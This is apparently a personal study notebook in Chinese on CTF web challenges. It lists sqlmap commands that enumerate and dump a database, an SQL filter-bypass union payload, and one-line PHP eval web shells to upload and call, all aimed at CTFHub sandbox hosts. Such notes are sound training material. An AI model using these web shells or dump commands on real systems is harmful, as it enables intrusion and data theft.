 				- docker docker环境会报错
				  collapsed:: true
					- ```shell
					  docker run --rm -it -v /path/to/host/work:/work:rw k0st/alpine-dvcs-ripper rip-svn.pl -v    -u  http://challenge-b462cb7bd1c09880.sandbox.ctfhub.com:10800
					  ```
				-
			- [dsstore](https://github.com/gehaxelt/Python-dsstore.git) 解析Dstore文件
		- SQL注入
			- [sqlmap](https://github.com/sqlmapproject/sqlmap/blob/master/doc/translations/README-zh-CN.md)
			  id:: 62ab25ff-9202-4bcf-b592-72c63bc1624b
				- ~~需要安装 [visual-cpp-build-tools](https://visualstudio.microsoft.com/zh-hans/visual-cpp-build-tools/)~~
				  collapsed:: true
					- ![image.png](../assets/image_1655354940503_0.png)
				- id:: 62ab25ff-4d7f-45ea-823b-3d3e9be200af
				  ```shell
				  git clone --depth 1 https://github.com/sqlmapproject/sqlmap.git sqlmap-dev
				  ```
				- [简易教程](https://www.cnblogs.com/0yst3r-2046/p/10957616.html)
				- [用户手册](http://drops.xmd5.com/static/drops/tips-143.html)
				- 列出表名
					- ```sh
					  python sqlmap.py -u "http://challenge-318d8691ca4cc7b3.sandbox.ctfhub.com:10800/?id=1"  --tables --tamper "space2comment.py"
					  ```
				- 列出列名
					- ```shell
					  python sqlmap.py -u http://challenge-09b258a06d2a3854.sandbox.ctfhub.com:10080/?id=1 -T flag --columns
					  ```
				- 查数据
					- ```shell
					  python sqlmap.py -u http://challenge-09b258a06d2a3854.sandbox.ctfhub.com:10080/?id=1 -T flag -C flag --dump
					  ```
				- 过滤空格
					- ` /**/、()、%0a`
					- ```sh
					  -1/**/union/**/select/**/database(),2 
					  ```
					- ```sh
					  python sqlmap.py -u "http://challenge-318d8691ca4cc7b3.sandbox.ctfhub.com:10800/?id=1" --dbs --tamper "space2comment.py"
					  ```
		- 文件上传
			- 1.确定环境
			  collapsed:: true
				- ((62aae34b-60dd-4818-90e4-ae6b89c93527))
			- 2.上传对应木马
				- PHP
					- ```PHP
					  <?php eval(@$_POST['a']); ?>
					  ```
					- ```PHP
					  <?php eval(@$_GET['a']); ?>
					  ```
			- 3.访问接口
				- ```curl
				  http://challenge-15ae0dbdc51ad51b.sandbox.ctfhub.com:10800/upload/sad.php?a=phpinfo();
				  ```
		- 抓包工具
			- [[Burpsuite Pro 2022.2.2]]
				- [Burp Suite 使用介绍](http://drops.xmd5.com/static/drops/tools-1548.html)